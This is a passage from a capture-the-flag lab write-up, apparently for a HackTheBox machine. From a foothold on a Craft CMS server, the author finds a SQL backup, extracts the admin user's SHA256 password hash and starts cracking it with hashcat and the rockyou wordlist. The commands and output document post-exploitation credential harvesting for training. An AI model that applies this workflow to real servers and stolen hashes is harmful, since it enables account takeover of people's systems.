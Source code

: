 Looking around at the filesystem structure of the CMS, there’s the `storage`
directory where logs are kept:

    
    
    www-data@surveillance:~/html/craft/storage$ ls
    backups  config-deltas  logs  runtime
    

There is something in the `backups` dir:

    
    
    www-data@surveillance:~/html/craft/storage$ ls backups/
    surveillance--2023-10-17-202801--v4.4.14.sql.zip
    

I’ll `unzip` it and it’s quite long:

    
    
    www-data@surveillance:~/html/craft/storage/backups$ unzip surveillance--2023-10-17-202801--v4.4.14.sql.zip 
    Archive:  surveillance--2023-10-17-202801--v4.4.14.sql.zip
      inflating: surveillance--2023-10-17-202801--v4.4.14.sql  
    www-data@surveillance:~/html/craft/storage/backups$ wc -l surveillance--2023-10-17-202801--v4.4.14.sql
    2293 surveillance--2023-10-17-202801--v4.4.14.sql
    

Towards the bottom is the `users` table:

    
    
    --
    -- Dumping data for table `users`
    --                            
                                                                     
    LOCK TABLES `users` WRITE;
    /*!40000 ALTER TABLE `users` DISABLE KEYS */;
    set autocommit=0;
    INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820
    aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-
    10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
    /*!40000 ALTER TABLE `users` ENABLE KEYS */;
    UNLOCK TABLES;
    commit; 
    

Still only one user, but a different kind of hash, this time SHA256. I’ll save
it to a file and pass it to `hashcat`:

    
    
    $ hashcat ./admin-sha256.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
    ...[snip]...
    The following 8 hash-modes match the structure of your input hash:
    
          # | Name                                                       | Category
      ======+============================================================+======================================
       1400 | SHA2-256                                                   | Raw Hash
      17400 | SHA3-256                                                   | Raw Hash
      11700 | GOST R 34.11-2012 (Streebog) 256-bit, big-endian           | Raw Hash
       6900 | GOST R 34.11-94                                            | Raw Hash
      17800 | Keccak-256                                                 | Raw Hash
       1470 | sha256(utf16le($pass))                                     | Raw Hash
      20800 | sha256(md5($pass))                                         | Raw Hash salted and/or iterated